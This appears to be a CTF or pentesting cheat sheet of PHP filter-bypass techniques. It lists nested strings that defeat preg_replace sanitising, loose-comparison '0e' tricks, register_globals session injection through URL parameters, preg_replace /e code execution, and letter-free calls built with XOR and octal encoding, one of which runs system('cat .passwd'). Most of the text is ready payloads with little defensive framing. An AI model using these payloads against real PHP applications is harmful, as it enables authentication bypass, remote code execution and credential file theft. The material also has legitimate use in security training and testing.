 # PHP Filter Bypass

## preg_replace('search','replacewith','stringtovalidate')
```php
$variable = preg_replace('foxchallenge','','foxchallfoxchallengeenge')
```
Note that the string in the middle is checked and deleted but as it is wrapped with another foxchallenge, the second isnt checked

## Double comparison
In php, when comparing with `==`, types are converted to integers before comparison. And string which start with `0e` are interpreted as `0`

## Register globals turned ON
Patched in php 5.3.0  

A variable that is not set before use can be set from super globals such as `$_REQUEST`,`$_POST`,`$_COOKIES` or `$_GET`, `$_SESSION`, `$_SERVER`. The fact is that if the variable is not set where the code looks for, it look in global variables.

Example : 
```php
if (authenticated_user()) {
	$authorized = true;
}
// Insecure using of $authorized because no default value has been set
if ($authorized) {
	include "/highly/sensitive/data.php";
}
```

Global variables can be modify thru request params : 
```
_METHOD[param]=value
```
Example with logged param :
```
http://example.com/index.php?_SESSION[logged]=1
```

## preg_replace()

preg_replace is vulnerable to rce : 

```php
preg_replace("Replace that", "with that", "from that")
preg_replace("/a/e",phpinfo(),"whatever")
preg_replace("/a/e",file_get_contents("./index.php"),"whatever")
```


## No letters

### Using XOR technics
Concatenate letter by letter
```php
('('^'[') . ('$'^']') ...
```

### Using octal
```php
("\160\150\160\151\156\146\157")() // ("phpinfo")() = phpinfo()
("\163\171\163\164\145\155")("\143\141\164\40\56\160\141\163\163\167\144") // ("system")("cat .passwd")
```